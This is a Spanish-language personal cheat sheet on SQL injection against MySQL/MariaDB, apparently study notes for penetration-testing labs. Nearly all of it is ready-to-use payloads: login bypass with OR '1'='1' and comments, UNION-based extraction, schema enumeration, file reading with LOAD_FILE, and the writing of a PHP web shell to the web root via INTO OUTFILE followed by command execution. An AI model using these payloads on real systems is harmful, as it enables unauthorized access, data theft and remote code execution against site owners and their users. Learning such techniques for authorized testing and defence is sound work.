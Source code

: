 
## Básico

-Consulta inicial
```
SELECT * FROM logins WHERE username=''' AND password='cualquiera';

```
-SQLi
```
SELECT * FROM logins WHERE username='admin' OR '1'='1' AND password='cualquiera';
```
-Si no sabes el usuario
```
SELECT * FROM logins WHERE username='loquesea' OR '1'='1' AND password='algo' OR '1'='1';
```
te loggea como el primer usuario de la tabla(usualmente admin)

## Comentarios

-Bypass con comentario
```
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'algo';
```
IMPORTANTE: el comentario -- tiene que tener un espacio después, te puedes asegurar de ello usando -- -

## UNION

Te hace un mezcladillo con las dos tablas que le des, interesante cuando quieres leer info de otras tablas

-REQUISITOS: la tabla inicial con la tabla aderida con el union tienen que tener el mismo numero de columnas, si no dará error

-unión de tablas ports y ships
```
SELECT * FROM ports UNION SELECT * FROM ships;
```

-Si no sabes que tipo de dato almacena las columnas es mejor usas NULL pues se adapta a todas, y para saber cuantas columnas hay es bueno hacer union e ir probando un numero hasta que deje de dar error
```
UNION SELECT username, NULL, NULL, NULL FROM passwords-- 
```
## DATABASE ENUMERATION

para saber en que base de datos estamos usar : database()
### Fingerprinting

![[Pasted image 20250522200054.png]]

### INFORMATION_SCHEMA

`INFORMATION_SCHEMA` es una **base de datos especial** que contiene metadatos (nombres de tablas, columnas, etc.) de **todas las bases de datos** del servidor.

Pero como está en otra base de datos, para acceder a sus tablas usamos el operador **`.`** (punto).  
Ejemplo:
```
SELECT * FROM my_database.users;
```

### SCHEMATA

Contiene todas las bases de datos. Para verlas:
```
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

### TABLES

La tabla `INFORMATION_SCHEMA.TABLES` contiene **una fila por cada tabla** que existe en **todas las bases de datos** del servidor.

```
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'clientes_db';
```


### COLUMNS

La tabla `INFORMATION_SCHEMA.COLUMNS` contiene información sobre **todas las columnas** de todas las tablas en todas las bases de datos.

```
SELECT COLUMN_NAME
FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'usuarios' AND TABLE_SCHEMA = 'clientes_db';
```

## Lectura de archivos

### Privilegios necesarios

En MySQL y MaríaDB necesitas de los privilegios 'FILE', para comprobarlo:
```
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

### que usuario soy ? 

```
cn' UNION SELECT 1, USER(), 3, 4-- -
```

### Leer archivo

```
SELECT LOAD_FILE('/ruta/al/archivo');
```

## Escritura en archivos (RCE) 

(epico para web shell )

### Permisos necesarios

-FILE:
```
SELECT privilege_type FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"
```
-secure_file_priv
```
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
```

- **Si devuelve NULL** → no puedes leer ni escribir archivos.
- **Si devuelve vacío** (`""`) → puedes leer/escribir en todo el sistema.
- **Si devuelve una ruta** (ej. `/var/lib/mysql-files`) → solo puedes escribir ahí.

### Web shell

-Payload
```
<?php system($_REQUEST[0]); ?>
```
-SQLi
```
cn' UNION SELECT "", '<?php system($_REQUEST[0]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
```
-Luego puedes hacer:
```
http://target/shell.php?0=id
```